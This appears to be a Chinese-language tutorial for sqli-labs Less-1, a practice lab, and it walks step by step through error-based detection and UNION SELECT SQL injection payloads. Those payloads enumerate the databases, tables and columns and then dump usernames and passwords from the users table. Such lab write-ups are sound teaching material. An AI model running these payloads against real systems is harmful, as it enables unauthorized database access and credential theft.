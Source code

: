 ### 2、sqli-labs-less-1

##### 1、访问less-1的页面

###### 1.1、地址为： ip/sqli-labs/Less-1
![Alt text](./../../images/sql/less-1/less-1.png 'less-1')

##### 2、注入

###### 2.1、根据页面提示，输入ID作为带数值的参数---判断是否有注入点

![Alt text](./../../images/sql/less-1/less-1-id.png 'id参数')

id后面接入英文单引号空格报错，判断可能有注入点

![Alt text](./../../images/sql/less-1/less-1-error.png '空格报错')

输入 ’ and ‘1’='1不报错，确定存在注入点

![Alt text](./../../images/sql/less-1/less-1-1=1.png "’ and ‘1’='1不报错")

###### 2.2、开始注入，获取库名，表名，列名信息，并查找表数据
2.2.1 判断当前可注入表的列数
```
?id=1' order by 3 --+

order by 数字: 根据列名排序，order by后面直接跟数字表示为，根据前几列进行排序，所以可以使用这种方法进行列数的确定

从 1.2..3 是正常返回数据，当order by为4时，报错，说明当前sql语句查询的这个表列数为3

```
![Alt text](./../../images/sql/less-1/orderby3.png "orderby3")

![Alt text](./../../images/sql/less-1/orderby4.png "orderby4")

2.2.2 获取当前数据库名
```
?id=-1' union select 1,2,database() --+

nuion:
1、为联合查询，union前的数据要为“假”
2、用于连接两个以上的select语句到一个结果集中，输入表中超出的列数会报错---上面已经试过列数为3

database() : 数据库函数，返回默认或当前数据库的名称

--+ :注释后面的单引号和拼接

```
![Alt text](./../../images/sql/less-1/less-1-database.png "database")

2.2.3 获取所有数据库

```

?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+

group_concat:将查询出的数据进行拼接

information_schema: mysql中的数据信息表，里面包含有所有的库，表，列名的记录

schemata: 上述库中的其中表的名称

```

![Alt text](./../../images/sql/less-1/allDataBases.png "alldatabase")

2.2.4 获取某个库中的所有表

```

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```

![Alt text](./../../images/sql/less-1/allTables.png "allTables")

2.2.5 获取用户表(users)中的列名

```

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security'and table_name ='users' --+

and:表示条件并列

```
![Alt text](./../../images/sql/less-1/tablecolumns.png "tablecolumns")


2.2.6 获取用户表(users)中的信息

```

?id=-1' union select 1,2,group_concat(id,"-",username,"-",password) from users --+

```

![Alt text](./../../images/sql/less-1/usersInfo.png "usersInfo")
